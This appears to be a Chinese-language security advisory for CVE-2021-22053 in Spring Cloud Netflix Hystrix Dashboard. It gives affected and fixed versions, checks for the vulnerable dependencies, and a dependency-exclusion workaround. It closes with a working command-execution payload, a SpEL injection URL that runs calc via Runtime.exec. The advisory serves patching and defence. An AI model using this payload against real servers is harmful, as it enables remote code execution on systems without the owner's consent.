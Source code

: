   

- #### 缓解措施

  ###### 无。不要将路由映射到互联网。

------

# Spring Cloud Netflix Hystrix Dashboard 模板解析漏洞 CVE-2021-22053

- #### 影响版本

  ###### Spring Cloud Netflix  2.2.0.RELEASE到2.2.9.RELEASE、以及更早的不受支持的版本

- #### 安全版本

  ###### Spring Cloud Netflix 升级到2.2.10.RELEASE及以上

- #### 排查方法

  ###### 1、检查lib目录或pom中的Spring Cloud Netflix版本是否在漏洞版本中（本文试验版本Greenwich.SR6）

  ###### 2、检查pom中是否存在thymeleaf组件、hystrix-dashboard组件

  ```
  <dependency>
      <groupId>org.springframework.cloud</groupId>
      <artifactId>spring-cloud-starter-netflix-hystrix-dashboard</artifactId>
       <scope>compile</scope>
  </dependency>
  <dependency>
       <groupId>org.springframework.boot</groupId>
       <artifactId>spring-boot-starter-thymeleaf</artifactId>
  /dependency>
  
  该漏洞需满足系统中存在以上两个组件，且存在漏洞版本中。
  
  spring-cloud-starter-netflix-hystrix-dashboard组件当前最高版本2.2.10.RELEASE(2022/4/30)，但其间接引入spring-cloud-netflix-hystrix-dashboard 2.1.5.RELEASE，因此单独升级spring-cloud-starter-netflix-hystrix-dashboard不能解决漏洞；
  可以先引入spring-cloud-starter-netflix-hystrix-dashboard 2.2.10.RELEASE，可以先从中排除spring-cloud-netflix-hystrix-dashboard 2.1.5.RELEASE，然后引入spring-cloud-netflix-hystrix-dashboard 2.2.10.RELEASE版本，如下图所示：
  ```

  ![image-20220430211542711](https://user-images.githubusercontent.com/33454436/166195676-bb510f97-1f15-41b1-826a-22ab801189df.png)


- #### 漏洞利用

  ###### 命令执行：

  ```
  http://127.0.0.1:8080/hystrix/;a=a/__${T (java.lang.Runtime).getRuntime().exec(new String[]{\"calc\"})}__::.x/
  ```
